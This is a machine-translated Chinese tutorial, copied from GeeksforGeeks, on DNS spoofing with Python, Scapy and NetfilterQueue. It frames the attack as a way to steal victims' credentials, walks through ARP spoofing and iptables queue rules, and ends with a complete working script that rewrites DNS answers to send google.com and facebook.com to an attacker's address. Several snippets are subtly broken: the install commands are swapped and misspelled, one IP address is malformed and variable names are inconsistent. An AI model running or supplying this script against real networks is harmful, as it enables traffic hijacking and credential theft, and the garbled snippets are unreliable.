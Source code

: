 # 如何用 Python 中的 Scapy 进行 DNS 恶搞攻击？

> 原文:[https://www . geeksforgeeks . org/如何制作 DNS-欺骗-攻击-使用 python 中的 scapy/](https://www.geeksforgeeks.org/how-to-make-a-dns-spoof-attack-using-scapy-in-python/)

在本文中，我们将讨论如何使用 Python 中的 Scapy 进行 DNS 欺骗攻击。在开始之前，我们需要知道几点:

*   **DNS server:** The domain name system provides a method to match human-readable domain names to IP addresses. For example, when we search for google.com, the browser queries the [domain name system](https://www.geeksforgeeks.org/domain-name-system-dns-in-application-layer/) server for the domain name system to return the IP address of Google server (172.217.166.110).
*   **DNS spoof:** DNS spoof is a computer network attack, which forces the target to navigate to the fake page by replacing the IP address sent by the DNS server. This target doesn't know this is a fake page. The motive of the attack is to steal the target's data (user name, credit card details, password, etc.).

**所需模块:**

*   **Netfilter queue:** [Netfilter queue](https://pypi.org/project/NetfilterQueue/) is a Python library, which provides access to data packets matched by iptables rules in Linux. Such matched packets can be accepted, discarded, changed or marked. Run the following command to install:

```py
pip3 install scapy
```

*   **Scapy:** [Scapy](https://scapy.readthedocs.io/en/latest/) is a Python package used to manipulate computer network packets. It can complete tasks such as scanning, tracking routing, probing, unit testing and network discovery. Run the following command to install:

```py
pip3 install netfiltdrqueue
```

**采用的方法:**

*   在目标网络中实施 ARP 欺骗，以便所有数据包都可以通过您的设备进行路由。
*   创建一个 Iptable 链规则，将通过设备路由的数据包推送到网络过滤队列。
*   下一步是用我们的脚本处理数据包(脚本解释如下)。
*   处理后的数据包将被发送给受害者。
*   那么受害者将从域名系统响应中收到一个假的 IP 地址。
*   当您希望终止脚本时，请删除我们在第二步中创建的 Iptable 规则。

**我们来看看分步实现 DNS 欺骗的命令和功能。**

**步骤 1:** 导入模块。

```py
from scapy.all import *

import os
import logging as log
from scapy.all import IP, DNSRR, DNSQR, UDP, DNS
from netfilterqueue import NetfilterQueue
```

**第 2 步:**将此规则插入到 IP 表中，这样数据包将被重定向到 NetfilterQuque。然后我们可以使用 scapy 包来修改队列中的数据包。队列号可以是您选择的任何数字。

```py
os.system("sudo iptables -I FORWARD -j NFQUEUE --queue-num  1")
```

**步骤 3:** 创建网络过滤队列对象。

```py
queue = NetfilterQueue()
```

**步骤 4:** 将队列对象绑定到队列号和回调函数。然后在实现回调函数后启动队列。

```py
queue.bind(queueNum,callback)
queue.run()
```

**第五步:**创建我们需要欺骗的主机名的 DNS 记录字典。您可以根据自己的选择添加更多的域名映射(所有映射的 IP 地址不必相同)。

```py
hostsDict = {
    "google.com"  : "192.168..48.243",
    "facebook.com" : "192.168.48.243"
}
```

**第 6 步:**当新的数据包进入队列时，将调用回调函数。数据包将作为参数传递给回调函数。

```py
def callBack(packet):
```

**步骤 7:** 接下来，将 NetfilterQueue 数据包转换为 scapy 数据包，以处理该数据包。

```py
scapyPacket = IP(packet.get_payload())
```

**步骤 8:** 检查数据包中是否有域名系统资源记录。如果它有 DNSRR，我们将修改数据包，否则不会对数据包进行任何更改。

```py
if scapyPacket.haslayer(DNSRR):
```

**步骤 9:** 从数据包中获取域名系统查询名称。查询名称是受害者发送给 DNS 服务器的主机名。

```py
queryName = scapyPacket[DNSQR].qname
```

**步骤 10:** 如果我们的目标主机字典中的查询名称，我们用主机字典中的 IP 地址修改 DNS 发送的 IP 地址。

```py
if queryName in hostDict:
    sacpyPacket[DNS].an = DNSRR(rrname = queryName, rdata = hostDict[queryName])
```

**步骤 11:** 修改数据包计数为 1，因为我们被发送给受害者一个单一的 DNSRR。

```py
scapyPacket[DNS].ancount = 1
```

**步骤 12:** 可以使用校验和和其他信息检测数据包损坏，因此我们删除它们，并使用 scapy 生成一个新条目。

```py
del scapyPacket[IP].len
del scapyPacket[IP].chksum
del scapyPacket[UDP].len
del scapyPacket[UDP].chksum
```

**步骤 13:** 将修改后的 scapy 数据包有效负载设置为 NetfilterQueue 数据包。

```py
packet.set_payload(bytes(scapyPacket))
```

**第 14 步:**数据包准备发送给受害者。

```py
packet.accept()
```

**步骤 15:** 终止脚本时，删除创建的 IP 表规则。

```py
os.system("sudo iptables -D FORWARD -j NFQUEUE --queue-num 1")
```

**下面是完整实现:**

## 蟒 3

```py
import os
import logging as log
from scapy.all import IP, DNSRR, DNS, UDP, DNSQR
from netfilterqueue import NetfilterQueue

class DnsSnoof:
    def __init__(self, hostDict, queueNum):
        self.hostDict = hostDict
        self.queueNum = queueNum
        self.queue = NetfilterQueue()

    def __call__(self):
        log.info("Snoofing....")
        os.system(
            f'iptables -I FORWARD -j NFQUEUE --queue-num {self.queueNum}')
        self.queue.bind(self.queueNum, self.callBack)
        try:
            self.queue.run()
        except KeyboardInterrupt:
            os.system(
                f'iptables -D FORWARD -j NFQUEUE --queue-num {self.queueNum}')
            log.info("[!] iptable rule flushed")

    def callBack(self, packet):
        scapyPacket = IP(packet.get_payload())
        if scapyPacket.haslayer(DNSRR):
            try:
                log.info(f'[original] { scapyPacket[DNSRR].summary()}')
                queryName = scapyPacket[DNSQR].qname
                if queryName in self.hostDict:
                    scapyPacket[DNS].an = DNSRR(
                        rrname=queryName, rdata=self.hostDict[queryName])
                    scapyPacket[DNS].ancount = 1
                    del scapyPacket[IP].len
                    del scapyPacket[IP].chksum
                    del scapyPacket[UDP].len
                    del scapyPacket[UDP].chksum
                    log.info(f'[modified] {scapyPacket[DNSRR].summary()}')
                else:
                    log.info(f'[not modified] { scapyPacket[DNSRR].rdata }')
            except IndexError as error:
                log.error(error)
            packet.set_payload(bytes(scapyPacket))
        return packet.accept()

if __name__ == '__main__':
    try:
        hostDict = {
            b"google.com.": "192.168.1.100",
            b"facebook.com.": "192.168.1.100"
        }
        queueNum = 1
        log.basicConfig(format='%(asctime)s - %(message)s', 
                        level = log.INFO)
        snoof = DnsSnoof(hostDict, queueNum)
        snoof()
    except OSError as error:
        log.error(error)
```